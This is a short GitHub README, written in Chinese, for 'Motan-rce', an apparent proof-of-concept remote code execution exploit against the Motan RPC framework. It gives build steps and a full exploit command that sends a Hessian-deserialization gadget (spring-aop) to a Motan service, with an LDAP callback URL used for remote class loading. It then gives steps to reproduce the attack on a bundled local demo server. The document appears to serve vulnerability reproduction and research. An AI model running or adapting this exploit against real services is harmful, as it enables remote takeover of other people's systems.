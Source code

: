 
# Motan-rce

## 快速利用

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务（漏洞靶场）

2. **编译rpc-rce：mvn clean package （jdk8+mvn3.2.5）**
```
java -jar dubbo-exp-1.0-SNAPSHOT-jar-with-dependencies.jar --target 127.0.0.1:8002 --protocol motan --serialization hessian  --gadget spring-aop --arg ldap://127.0.0.1:9988
```
[](https://github.com/zhzhdoai/Motan-rce/blob/master/poc.png)

## 漏洞复现

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务


2. **motan-demo/motan-demo-client/src/main/java/com/weibo/motan/demo/client/AnnotationRpcClientDemo.java** 运行攻击服务


# 鸣谢
rpc-rce框架拉取threedr3am/learnjavabug:https://github.com/threedr3am/learnjavabug.git

